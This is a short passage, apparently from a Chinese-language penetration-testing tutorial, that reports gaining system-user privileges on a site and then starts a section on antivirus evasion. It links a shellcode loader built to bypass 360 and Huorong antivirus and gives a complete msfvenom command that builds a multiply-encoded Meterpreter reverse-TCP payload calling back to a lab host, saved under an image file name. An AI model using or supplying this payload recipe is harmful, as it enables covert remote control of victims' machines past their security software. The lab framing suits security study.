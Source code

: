 ![Alt text](image-60.png)   
获取到了启动当前站点的系统用户权限。   
# 五、免杀：MSF 编码器结合 shellcode 加载器进行免杀实验。
下载`shellcode`加载器。
```text
 # 下载地址
 https://github.com/crow821/crowsec/tree/master/BypassAV_360_huornog
```   
利用编码器生成图片。   
```
 msfvenom -p windows/meterpreter/reverse_tcp -e x64/shikata_ga_nai -i 7 -b '\x00' lhost=192.168.228.129 lport=5554 -f raw -o crowsec.jpg
```   